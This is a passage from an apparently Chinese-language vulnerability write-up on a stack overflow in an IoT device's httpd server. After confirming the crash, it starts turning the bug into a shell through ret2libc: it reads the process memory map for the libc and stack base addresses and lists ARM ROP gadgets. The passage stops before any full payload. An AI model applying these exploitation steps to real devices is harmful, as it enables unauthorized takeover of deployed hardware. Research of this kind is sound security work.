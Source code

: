 可以发现系统停止了运行并在监听端出现报错

到这里复现就成功了

## 更进一步

既然栈溢出能成功，那么我们是否可以更进一步拿到 shell？

答案自然是可以的，程序只开启了 nx，无法直接写 shellcode，而程序中的后门函数不大好利用，并且考虑到 IoT 设备为效率考虑一般是不会开 aslr 的，所以我们可以直接通过 ret2libc 来进行利用

首先找到该进程加载的 libc 基地址和栈地址

```plain
cat /proc/'pid号'/maps
```

[![](assets/1706496082-6acca2952a6a679b78363cc7f96562a2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126170550-19f906ec-bc2a-1.png)

用 ROPgadget 看看有那些可以利用的 gadget

```plain
root@rbcpwn-virtual-machine:~/Desktop# ROPgadget --binary httpd --only 'pop|ret'
Gadgets information
============================================================
0x00024364 : pop {r1, pc}
0x00015c3c : pop {r3, pc}
0x0000d9f0 : pop {r3, r4, r5, pc}
0x0000aa94 : pop {r3, r4, r5, r6, r7, pc}
0x00011a58 : pop {r3, r4, r5, r6, r7, r8, sb, pc}
0x00011c54 : pop {r3, r4, r5, r6, r7, r8, sb, pc} ; pop {r3, r4, r5, r6, r7, r8, sb, pc}
0x0000e4d8 : pop {r3, r4, r5, r6, r7, r8, sb, sl, fp, pc}
0x0000a884 : pop {r4, pc}
0x0000d6cc : pop {r4, r5, pc}
0x0000a91c : pop {r4, r5, r6, pc}
0x0001757c : pop {r4, r5, r6, pc} ; pop {r4, r5, r6, pc}
0x0001412c : pop {r4, r5, r6, r7, pc}
0x0001bdb4 : pop {r4, r5, r6, r7, r8, fp, pc}
0x0000a9e0 : pop {r4, r5, r6, r7, r8, pc}
0x0000f2a4 : pop {r4, r5, r6, r7, r8, sb, pc}
0x0000a504 : pop {r4, r5, r6, r7, r8, sb, sl, fp, pc}
0x0000c708 : pop {r4, r5, r6, r7, r8, sb, sl, pc}
```
